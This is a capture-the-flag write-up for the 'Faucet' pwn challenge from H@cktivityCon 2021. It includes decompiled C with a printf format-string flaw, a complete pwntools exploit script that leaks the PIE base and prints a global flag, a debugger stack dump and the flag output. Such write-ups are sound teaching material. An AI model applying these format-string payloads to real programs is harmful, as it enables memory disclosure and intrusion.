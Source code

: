 # H@cktivityCon 2021 CTF

## Faucet


> My faucet has a little leak. I really should get it fixed before it causes any damage... 
> 
> 413
> 
> [`faucet`](faucet)
>
> author: @M_alpha#3534

Tags: _pwn_ _x86-64_ _format-string_


## Summary

Basic _print arbitrary string_ with a format-string attack.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Finally, all mitigations in place.

> BTW, this is the _default_ behavior of `gcc`.

But don't panic because this is a format-string challenge.  Format-string attacks, IMHO, are the most powerful exploits because you can read and/or write any location (assuming the location is readable and/or writable).
    

### Decompile with Ghidra

```c
void buy_item(void)
{
  int iVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("What item would you like to buy?: ");
  fgets(local_38,0x20,stdin);
  sVar2 = strcspn(local_38,"\n");
  local_38[sVar2] = '\0';
  iVar1 = strcmp(local_38,"hammer");
  if (iVar1 == 0) {
    hammer = 1;
  }
  else {
    iVar1 = strcmp(local_38,"wrench");
    if (iVar1 == 0) {
      wrench = 1;
    }
  }
  printf("You have bought a ");
  printf(local_38);
  puts("\n");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

The `printf(local_38);` vuln is in `buy_item` function, however our attack is limited to `0x20` (32) bytes since that is all `fgets` reads in (31 actually since `fgets` will null terminal the final byte).  But, we can buy as many items as we like.

This challenge would have been more fun if that was it, however in `main`:

```
undefined8 main(void)
{
  undefined4 uVar1;
  FILE *__stream;
  
  __stream = fopen("flag.txt","r");
  if (__stream != (FILE *)0x0) {
    fgets(FLAG,0x100,__stream);
```    

the flag is read into the global variable `FLAG`.

> Just double-click on `FLAG` in Ghidra to see that it is a global.

To print the flag we need to first leak the base process address (PIE is enabled), then we can use that to compute the location of `FLAG` and then `printf` it.

> If you're new to format-string exploits then read [dead-canary](https://github.com/datajerk/ctf-write-ups/tree/master/redpwnctf2020/dead-canary) for some examples as well as [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf) and [https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf).


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./faucet')

if args.REMOTE:
    p = remote('challenge.ctf.games', 31230)
else:
    p = process(binary.path)

# get base address
p.recvuntil(b'[5]')
p.sendlineafter(b'> ',b'5')
p.sendlineafter(b': ',b'%10$p')
p.recvuntil(b'You have bought a ')
_start = int(p.recvline().strip(),16)
binary.address = _start - binary.sym._start
log.info('binary.address: ' + hex(binary.address))

# get flag
p.recvuntil(b'[5]')
p.sendlineafter(b'> ',b'5')
p.sendlineafter(b': ',b'%00007$s' + p64(binary.sym.FLAG))
p.recvuntil(b'You have bought a ')
log.info('flag: ' + p.recvline().strip().decode())
p.close()
```

The first pass sends the format-string `%10$p`; this will leak the location of `_start` from the stack:

```
0x00007fffffffe310│+0x0000: 0x0000000068616c62 ("blah"?)	 ← $rsp, $rdi
0x00007fffffffe318│+0x0008: 0x00007ffff7e4771a  →  <puts+378> cmp eax, 0xffffffff
0x00007fffffffe320│+0x0010: 0x0000555555555740  →  <__libc_csu_init+0> endbr64
0x00007fffffffe328│+0x0018: 0x00007fffffffe360  →  0x0000000000000000
0x00007fffffffe330│+0x0020: 0x00005555555551e0  →  <_start+0> endbr64
```

> To get this stack view set a break point at the offending `printf` (i.e. `b *buy_item+183`).
>
> I'm not going to cover how to determine the offset, the links I provided above as well as many of my write ups (see [INDEX.md](https://github.com/datajerk/ctf-write-ups/blob/master/INDEX.md)) cover this in detail.

The offset is `6` (it's almost always `6` with easy CTF challenges), so counting down to `_start` we end up with `10` as the parameter to pass to `%p` to leak a base address.

With the location of `_start`, we can compute the location of the binary address.

The second pass sends the format-string `%00007$s` with the location of `FLAG` to print the flag.  The padding is required to keep the stack aligned (8 bytes for the format string followed by 8 bytes for the location of of `FLAG`).  `7` because the offset is `6`, the format string is at parameter (offset) `6` and the parameter is next at offset `7`, hence `%00007$s`.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/hacktivityctf2021/faucet/faucet'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenge.ctf.games on port 31230: Done
[*] binary.address: 0x563124cde000
[*] flag: flag{6bc75f21f8839ce0db898a1950d11ccf}
```
